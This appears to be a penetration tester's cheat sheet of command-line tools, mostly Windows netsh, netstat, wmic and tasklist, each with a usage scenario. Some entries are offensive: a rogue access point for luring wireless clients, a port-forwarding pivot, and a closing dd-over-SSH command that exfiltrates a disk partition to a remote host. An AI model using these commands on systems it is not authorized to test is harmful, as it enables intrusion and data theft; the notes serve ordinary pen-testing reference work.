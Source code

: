 # Windows CMD Line Tools #

## Get Public IP Address

	curl -4 icanhazip.com

or

	dig +short myip.opendns.com @resolver1.opendns.com

or

	wget -qO- ifconfig.me/ip

## Configure a Windows machine as a WPA2-PSK Access Point ## 

### Usage scenario: Share a Windows machine’s Internet access with other systems wirelessly, or use a Windows machine to attract wireless clients into joining it for exploitation purposes

	netsh wlan set hostednetwork mode=allow ssid=<MYSSID>
	key=<MYPASSWORD> && netsh wlan start hostednetwork

## Configure a TCP port forwarding relay from IPv4 to IPv6 (v4tov4, v6tov6, and v6tov4 also supported). ##

### Usage scenario: Pivot a TCP connection through a Windows machine using built-in functionality, converting IPv4 to IPv6 as needed. ###

	netsh interface portproxy add v4tov6 listenport=<LPORT>
	listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>

## Get a list of TCP and UDP activity every 1 second. ##

### Usage scenario: Look for a connection coming in from a specific IP
address or port to determine when the connection occurs, within 1 second.

	netstat -naob 1 | find "<IPADDR or PORT>"

## Get a list of all available attributes of all running processes. ##

### Usage scenario: Look through processes to determine what is running,
including potentially exploitable software, malware, and other tools.

	wmic process list full

## Get a list of services running inside of each process. ##

### Usage scenario: Look for running services that might be exploitable or
running malware.

	tasklist /svc



## Encrypted Data Exfiltration

### Exfiltrate the contents of an image via SSH to another machine, compressing (-C) the content to speed up transfer. Usage scenario: Upon exploiting a machine with a small file system or particularly interesting partition, move that partition to the pen tester’s machine, compressing and encrypting data using SSH.

	dd if=/dev/rdisk0s1s2
	bs=65536 conv=noerror,sync
	| ssh -C user@10.10.10.10
	"cat >/tmp/image.dd"

